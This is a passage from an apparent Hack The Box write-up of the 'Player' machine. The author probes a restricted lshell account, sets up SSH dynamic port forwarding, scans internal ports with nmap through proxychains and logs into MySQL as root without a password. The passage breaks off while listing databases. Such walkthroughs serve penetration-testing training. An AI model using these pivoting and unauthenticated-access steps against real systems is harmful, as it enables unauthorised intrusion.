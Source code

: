 From the [website](https://github.com/ghantoos/lshell) description:

> lshell is a shell coded in Python, that lets you restrict a user's environment to limited sets of commands, choose to enable/disable any command over SSH (e.g. SCP, SFTP, rsync, etc.), log user's commands, implement timing restriction, and more. 

The configuration file is located here `/etc/lshell.conf`. Maybe there are some allowed commands that I need to find so I'll exfil the config file using the same ffmpeg trick.

![](/assets/images/htb-writeup-player/lshell_conf.png)

I don't see any allowed commands, nothing obvious stands out in the configuration. I can probably still port forward connections even if my shell is limited. I'll do a dynamic port forwarding with `ssh -D 127.0.0.1:1080 -p 6686 telegen@10.10.10.145` so I can use a SOCKS proxy and port scan the box through proxychains.

I run a fast scan with nmap and find MySQL listening on localhost:

```
# proxychains nmap -sT 127.0.0.1 -F
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-08 23:16 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.018s latency).
Not shown: 97 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

## Fail at MySQL

Funny enough, I can connect to the MySQL server without any authentication:

```
root@ragingunicorn:~/htb/player# proxychains mysql -h 127.0.0.1 -u root
ProxyChains-3.1 (http://proxychains.sf.net)
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 298
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| integrity          |
| mysql              |
| performance_schema |
```